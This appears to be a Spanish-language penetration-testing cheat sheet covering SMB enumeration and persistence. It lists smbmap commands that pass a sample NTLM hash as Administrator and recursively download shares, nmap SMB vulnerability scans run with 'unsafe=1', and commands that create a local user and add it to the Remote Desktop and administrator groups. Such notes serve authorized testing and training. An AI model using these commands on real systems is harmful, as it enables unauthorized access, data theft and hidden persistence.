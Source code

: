 ```bash
smbmap -u '' -p '' -H $ip # similar a crackmapexec --shares
smbmap -u guest -p '' -H $ip
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -r # listar el directorio principal
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -R # listar todo de manera recursiva
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -s wwwroot -R -A '.*' # Descarga todo de manera recursiva. Está genial para cuando smbclient no funciona.
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H $ip -x whoami # no funciona
```

### Nmap

**Enumeración de Recursos Compartidos**

```bash
nmap --script smb-enum-shares -p 139,445 $ip
```

**Enumeración Rápida**

```bash
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $ip
```

**Enumeración rápida de vulnerabilidades**

```bash
nmap --script=smb-vuln* --script-args=unsafe=1 -T5 $ip
```

**Enumeración total y de vulnerabilidades**

```bash
nmap --script=smb2-capabilities,smb-print-text,smb2-security-mode.nse,smb-protocols,smb2-time.nse,smb-psexec,smb2-vuln-uptime,smb-security-mode,smb-server-stats,smb-double-pulsar-backdoor,smb-system-info,smb-vuln-conficker,smb-enum-groups,smb-vuln-cve2009-3103,smb-enum-processes,smb-vuln-cve-2017-7494,smb-vuln-ms06-025,smb-enum-shares,smb-vuln-ms07-029,smb-enum-users,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-ls,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-os-discovery --script-args=unsafe=1 -T5 $ip
```

```bash
nmap -p139,445 -T4 -oN smb_vulns.txt -Pn --script 'not brute and not dos and smb-*' -vv -d $ip
```

## Persistencia

### Cuenta Local

**CMD**

```bash
 # Crear nuevo usuario
 net user /add "<Username>" "<Password>"

 # Añadir a grupo RDP
 net localgroup "Remote Desktop Users" "<Username>" /add

 # Añadir a administradores locales
 net localgroup administrators "<Username>" /add
```
